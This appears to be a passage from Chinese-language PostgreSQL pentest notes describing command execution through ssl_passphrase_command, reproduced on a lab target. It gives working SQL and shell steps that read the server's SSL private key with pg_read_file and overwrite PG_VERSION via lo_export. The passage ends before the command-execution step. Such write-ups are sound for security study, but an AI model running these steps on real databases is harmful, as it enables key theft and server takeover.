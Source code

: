 ## 利用 ssl_passphrase_command 执行命令

方法来自于 https://pulsesecurity.co.nz/articles/postgres-sqli 这篇文章的场景

**利用条件**
- 需要知道 PG_VERSION 文件的位置 (不是 PG_VERSION 文件也行,pgsql限制私钥文件权限必须是0600才能够加载，pgsql目录下的所有0600权限的文件都是可以的,但覆盖后没啥影响的就 PG_VERSION 了)

**描述**

当配置文件中配置了 ssl_passphrase_command ，那么该配置在需要获取用于解密SSL文件密码时会调用该配置的命令。

通过上传 pem，key 到目标服务器上，读取配置文件内容，修改配置文件中的ssl配置改为我们要执行的命令，通过lo_export覆盖配置文件，最后通过 pg_reload_conf 重载配置文件时将执行命令

**复现**

这里以靶机上已经存在的2个密钥文件为例
```
/etc/ssl/certs/ssl-cert-snakeoil.pem
/etc/ssl/private/ssl-cert-snakeoil.key
```

通过文件读取获取私钥

```sql
select pg_read_file('/etc/ssl/private/ssl-cert-snakeoil.key');
```

对私钥文件加密
```bash
# 密码为 12345678
openssl rsa -aes256 -in ssl-cert-snakeoil.key -out private_passphrase.key

# 输出为 base64 格式
cat private_passphrase.key | base64 -w 0 > base.txt
```

上传 private_passphrase.key 到目标服务器上

由于 pgsql 限制私钥文件权限必须是 0600 才能够加载，这里搜索 pgsql 目录下的所有 0600 权限的文件,发现 PG_VERSION 文件符合条件，而且覆盖也没有太大影响

PG_VERSION 与 config_file 文件同目录，上传私钥文件覆盖 PG_VERSION，可绕过权限问题。
```sql
-- 将 private_passphrase.key 覆盖 PG_VERSION 文件
select lo_from_bytea(10004,decode('base64的内容,这里略','base64'));
select lo_export(10004,'/var/lib/postgresql/data/PG_VERSION');
SELECT lo_unlink(10004);
```

在靶机中查看验证是否写入成功

![](../../img/postgresql-pentest/49.png)

读取配置文件内容

```
select setting from pg_settings where name='config_file'
select pg_read_file('/var/lib/postgresql/data/postgresql.conf');
```
